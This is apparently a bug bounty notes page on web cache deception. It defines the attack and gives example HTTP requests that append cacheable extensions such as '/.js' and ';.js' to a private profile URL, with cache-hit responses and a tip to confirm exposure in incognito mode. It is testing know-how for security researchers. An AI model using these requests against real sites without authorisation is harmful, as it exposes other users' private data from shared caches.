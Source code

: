 
# Web Cache Deception

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Deception.md#web-cache-deception)

## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Deception.md#introduction)

Web Cache Deception is an attack in which an attacker deceives a caching proxy into improperly storing private information sent over the internet and gaining unauthorized access to that cached data

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Deception.md#where-to-find)

`-`

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Deception.md#how-to-exploit)

- Normal Request (For example in the settings profile feature)

```
GET /profile/setting HTTP/1.1
Host: www.vuln.com
```

The response is

```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

1. Try to add cacheable extension (For example .js / .css / .jpg, etc.)

```
GET /profile/setting/.js HTTP/1.1
Host: www.vuln.com
```

The response is

```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

1. Add `;` before the extension (For example `;.js` / `;.css` / `;.jpg`, etc.)

```
GET /profile/setting/;.js HTTP/1.1
Host: www.vuln.com
```

The response is

```
HTTP/2 200 OK 
Content-Type: text/html
Cf-Cache-Status: HIT 
...
```

If the `Cf-Cache-Status` response the request with `HIT` not `MISS` or `Error`. And then try to open the url in incognito mode

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Web%20Cache%20Deception.md#references)

- [@bxmbn](https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9)


